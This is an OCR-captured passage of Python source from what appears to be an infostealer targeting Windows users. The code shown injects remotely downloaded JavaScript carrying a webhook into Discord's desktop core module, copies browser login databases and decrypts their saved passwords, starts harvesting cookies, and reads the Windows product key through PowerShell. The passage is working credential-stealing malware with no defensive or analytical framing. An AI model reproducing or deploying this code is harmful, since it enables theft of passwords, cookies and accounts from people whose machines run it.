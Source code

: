                     m.write(self.formatted_cookies)
                else:
                    m.close()
                    os.remove(self.tempfolder+f'\\{platform} Cookies ({profile}).txt')
                
                if self.passwords_temp or self.cookies_temp or self.history_temp or self.misc_temp:
                    f.write(formatter(self.passwords_temp, self.cookies_temp, self.history_temp, self.misc_temp))
                else:
                    f.close()
                    os.remove(self.tempfolder+fname)
    def injector(self):
        self.bypassBetterDiscord()
        for dir in os.listdir(self.appdata):
            if 'discord' in dir.lower():
                discord = self.appdata+f'\\{dir}'
                disc_sep = discord+'\\'
                for _dir in os.listdir(os.path.abspath(discord)):
                    if re.match(r'app-(\d*\.\d*)*', _dir):
                        app = os.path.abspath(disc_sep+_dir)
                        for x in os.listdir(os.path.join(app,'modules')):
                            if x.startswith('discord_desktop_core-'):
                                inj_path = app+f'\\modules\\{x}\\discord_desktop_core\\'
                                if os.path.exists(inj_path):
                                    f = requests.get(config.get('injection_url')).text.replace("%WEBHOOK%", self.webhook)
                                    with open(inj_path+'index.js', 'w', errors="ignore") as indexFile: indexFile.write(f)

    def getProductValues(self):
        try: wkey = self.system(r"powershell Get-ItemPropertyValue -Path 'HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\SoftwareProtectionPlatform' -Name BackupProductKeyDefault")
        except Exception: wkey = "N/A (Likely Pirated)"
        try: productName = self.system(r"powershell Get-ItemPropertyValue -Path 'HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion' -Name ProductName")
        except Exception: productName = "N/A"
        return [productName, wkey]
    def grabPasswords(self,mkp,bname,pname,data):
        self.passwords_temp = ''
        newdb = os.path.join(self.tempfolder,f'{bname}_{pname}_PASSWORDS.db'.replace(' ','_'))
        master_key = self.get_master_key(mkp)
        login_db = data
        try: shutil.copy2(login_db, newdb)
        except Exception: self.exceptions.append(traceback.format_exc())
        conn = sqlite3.connect(newdb)
        cursor = conn.cursor()
        try:
            cursor.execute("SELECT action_url, username_value, password_value FROM logins")
            for r in cursor.fetchall():
                url = r[0]
                username = r[1]
                encrypted_password = r[2]
                decrypted_password = self.decrypt_val(encrypted_password, master_key)
                if url != "":
                    self.passwords_temp += f"\nDomain: {url}\nUser: {username}\nPass: {decrypted_password}\n"
                    self.stats['passwords'] += 1
        except Exception: self.exceptions.append(traceback.format_exc())
        cursor.close()
        conn.close()
        try: os.remove(newdb)
        except Exception: self.exceptions.append(traceback.format_exc())
    def grabCookies(self,mkp,bname,pname,data):
        self.cookies_temp = ''
        self.formatted_cookies = ''
        newdb = os.path.join(self.tempfolder,f'{bname}_{pname}_COOKIES.db'.replace(' ','_'))
        master_key = self.get_master_key(mkp)
        login_db = data